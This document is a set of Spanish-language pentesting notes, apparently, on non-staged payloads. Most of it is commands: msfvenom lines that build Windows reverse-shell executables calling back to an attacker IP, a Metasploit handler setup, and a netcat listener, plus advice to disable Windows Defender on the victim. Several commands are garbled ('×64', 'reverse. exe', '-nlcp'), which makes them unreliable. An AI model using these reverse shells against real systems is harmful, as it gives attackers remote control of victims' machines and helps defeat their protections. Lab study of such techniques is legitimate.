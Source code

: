 ----------
Tags: #payload #payloadstaged #metasploit #windows #netcat #nc #rlwrap

---------
**Payload Non-Staged**: Es un tipo de payload que se envía como **una sola entidad** y **no se divide en múltiples etapas**. La carga útil completa se envía al objetivo en un solo paquete y se ejecuta inmediatamente después de ser recibida. Este enfoque es más simple que el Payload Staged, pero también es más fácil de detectar por los sistemas de seguridad, ya que se envía todo el código malicioso de una sola vez.

---------
## Con metasploit

Creamos un binario malicioso con msfvenom para crear un ejecutable y después utilizamos metasploit.
1. Creamos el binario y lo descargamos en la máquina víctima:
```bash
msfvenom -p windows/×64/meterpreter_reverse_tcp --platform windows -a ×64 LHOST=192.168.111.45 LPORT=4646 -f exe -o reverse. exe
```
(Hay que desactivar el windows defender)
2. Utilizamos metasploit:
```bash
msfdb run
```

```metasploit
use exploit/multi/handle
set payload windows/x64/meterpreter_reverse_tcp
show options

run
```

-------------
## Con Netcat

Descargamos en la máquina víctima el ejecutable creado con el siguiente comando:
```bash
msfvenom -p windows/×64/shell_reverse_tcp --platform Windows -a ×64 LHOST=192.168.111.45 LPORT=4646 -f exe -o shell.exe
```

En la máquina atacante escuchamos por un puerto con netcat:
```bash
rlwrap nc -nlcp 4646
```

**rlwrap** es una herramienta que simula una consola interactiva.

----------
